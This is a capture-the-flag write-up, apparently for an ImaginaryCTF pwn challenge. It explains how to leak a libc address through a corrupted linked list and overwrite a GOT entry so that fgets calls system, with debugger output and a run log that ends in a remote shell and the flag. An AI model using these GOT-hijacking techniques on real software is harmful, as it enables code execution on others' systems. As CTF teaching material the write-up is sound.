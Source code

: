 **[Source](https://ropemporium.com/guide.html)**

Stack alignment issues come up in pwn challenges **a lot**, and the solution typically involves inserting a `ret` instruction into the payload, which we can easily find with a tool like `ropper`. You can learn a lot more about x64 stack alignment **[here](https://hackyboiz-github-io.translate.goog/2020/12/06/fabu1ous/x64-stack-alignment/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en)**.

However, in this case, we don't have control of the stack. Instead, we can try to jump to `system+1`, i.e. skip the first `push rax` instruction, which is causing a segfault.

```sh
 ► 0x404030 <system@got[plt]>    push   rax
```

This raises a new problem. Namely, the `got.system` address is `0x404030`, so if we enter `system+1` it will be `0x404031`. Let's review the GOT.

```c
                  PTR_system_00404030                   XREF[1]:  system:00401060
 00404030 18 50       addr     <EXTERNAL>::system                    ; = ??
                  PTR_printf_00404038                   XREF[1]:  printf:00401070
 00404038 20 50       addr     <EXTERNAL>::printf                    ; = ??
```

`got.printf` begins at `0x404038`, so if we write 8 bytes to `0x404031`, we'll overwrite the first byte of `got.printf` **and** miss the first byte of `got.system`.

The problem is that the GOT holds a pointer to the function addresses in the Lib-C library. If we want to access `system+1`, we must first find the actual address of `libc.system` (rather than `got.system`).

We can leak the Lib-C address the same way we leaked the `flag` in the last challenge. We'll overwrite a link, making the next element point to `got.system` (after ensuring the GOT entry is populated), then view the list and extract the address.

We can proceed with the remainder of the exploit, overwriting `got.fgets` with `leaked_system+1` instead of `got.system`. We get a shell and run `cat flag.txt` 🙂

```sh
python exploit.py REMOTE puzzler7.imaginaryctf.org 2007
[+] Opening connection to puzzler7.imaginaryctf.org on port 2007: Done
[*] leaked got_system: 0x7f4f6a53dd60
[*] Switching to interactive mode
 What data do you want to write to this element?

>>> $ cat flag.txt
ictf{who_knew_the_current_date_could_be_so_dangerous?}$
```

**edit:** `system+1` was not required. When we leak the Lib-C address, we can call it directly from the base. If we setup a breakpoint at `write_data` and step through until the `fgets` (`system`) call:

```sh
 RSP  0x7fff526190b0 ◂— 0x0
*RIP  0x401241 (write_data+60) ◂— call   0x401080
──────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
   0x401229 <write_data+36>    call   printf@plt                      <printf@plt>
 
   0x40122e <write_data+41>    mov    rdx, qword ptr [rip + 0x2e4b] <stdin@GLIBC_2.2.5>
   0x401235 <write_data+48>    mov    rax, qword ptr [rbp - 0x18]
   0x401239 <write_data+52>    mov    esi, 0x64
   0x40123e <write_data+57>    mov    rdi, rax
 ► 0x401241 <write_data+60>    call   fgets@plt                      <fgets@plt>
        s: 0x2394300 ◂— '/bin//sh'
        n: 0x64
        stream: 0x7f174e9c6980 (_IO_2_1_stdin_) ◂— 0xfbad2088
```
